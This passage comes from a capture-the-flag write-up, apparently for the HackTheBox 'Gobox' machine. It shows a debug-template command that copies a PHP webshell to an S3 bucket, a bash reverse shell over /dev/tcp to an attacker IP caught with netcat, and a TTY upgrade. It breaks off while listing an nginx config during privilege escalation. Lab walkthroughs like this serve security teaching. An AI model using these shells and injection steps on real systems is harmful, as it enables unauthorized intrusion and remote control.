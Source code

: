 Now copy it to website:

```bash
{{ .DebugCmd "aws s3 cp /tmp/web s3://website/web.php" }}
```

![image.png]({{ site.baseurl }}/assets/gobox/image%2015.png)

Now let’s visit our webshell:

```bash
http://10.10.11.113/web.php?cmd=id
```

![image.png]({{ site.baseurl }}/assets/gobox/image%2016.png)

Let’s get a reverse shell:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.3/4444 0>&1'
```

Start a listener and execute:

```bash
nc -lnvp 4444
```

![image.png]({{ site.baseurl }}/assets/gobox/image%2017.png)

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image.png]({{ site.baseurl }}/assets/gobox/image%2018.png)

## Privilege Escalation

Let’s check nginx configuration files.

```bash
cd /etc/nginx/sites-enabled

cat default

server {
        listen 4566 default_server;

        root /var/www/html;

        index index.html index.htm index.nginx-debian.html;

        server_name _;

        location / {
                if ($http_authorization !~ "(.*)SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz(.*)") {
                    return 403;
                }
                proxy_pass http://127.0.0.1:9000;
        }

}

server {
        listen 80;
        root /opt/website;
        index index.php;

```